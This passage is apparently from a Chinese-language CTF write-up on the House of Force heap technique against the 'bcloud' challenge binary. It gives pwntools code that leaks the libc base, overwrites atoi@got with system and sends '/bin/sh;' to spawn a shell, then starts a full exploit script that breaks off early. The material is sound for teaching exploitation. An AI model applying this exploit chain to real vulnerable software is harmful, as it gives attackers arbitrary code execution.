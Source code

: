 #### 5.计算system的地址
```python
libc_base = atoi_addr - libc.symbols['atoi']
log.success('libc_addr: '+hex(libc_base))
system_addr = libc_base + libc.symbols['system']
log.success('system_addr: '+hex(system_addr))
```

####6.get shell
有了system函数地址，又有可控指针，就可以将atoi@got写为system函数的地址，传入'/bin/sh;'就可以get shell。
```python
editNote(2,p32(system_addr))
p.recvuntil('option--->>')
p.sendline('/bin/sh;')
p.interactive()
```

### 0x03 总结
通过以上分析，可以总结出House of Force的利用条件
- 可以修改topchunk的size
- malloc(size)中的size可控


### 0x04 EXP
```python
#!/usr/bin/env python
from pwn import *
p = process('./bcloud')
elf = ELF('./bcloud')
libc = ELF('./libc')

DEBUG = 0
VERBOSE = 0
if DEBUG:
	gdb.attach(p)
if VERBOSE:
	context.log_level = 'debug'

def newNote(length,content):
	p.recvuntil('--->>')
	p.sendline('1')
	p.recvuntil('Input the length of the note content:')
	p.sendline(str(length))
	p.recvuntil('Input the content:')
	p.sendline(content)

def editNote(idx,content):
	p.recvuntil('--->>')
	p.sendline('3')
	p.recvuntil('Input the id:')
	p.sendline(str(idx))
	p.recvuntil('Input the new content:\n')
	p.sendline(content)
	p.recvuntil('Edit success.')

def deleteNote(idx):
	p.recvuntil('--->>')
	p.sendline('4')
	p.recvuntil('Input the id:')
	p.sendline(str(idx))


def pwn():
	#step1. leak heap address
	p.recvuntil('Input your name:')
```